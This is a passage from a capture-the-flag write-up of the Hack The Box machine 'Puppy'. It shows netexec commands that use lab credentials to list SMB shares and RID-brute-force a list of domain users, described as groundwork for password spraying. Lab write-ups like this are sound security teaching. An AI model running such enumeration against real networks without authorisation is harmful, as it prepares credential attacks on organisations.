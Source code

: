 ```shell
 =========================================
|    Printers via RPC for 10.129.184.6    |
 =========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 34.50 seconds
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.184.6    puppy.htb
10.129.184.6    dc.puppy.htb
```

### Enumeration of Port 445/TCP

Since we got `credentials` for the box we proceed with testing port `445/TCP` and figured out that we were able to read `IPC$` which we used to `RID Brute Force` a quick `list` of `users` for potential `password spraying`.

We also noticed a share called `DEV` which we could not access yet.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC$
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```
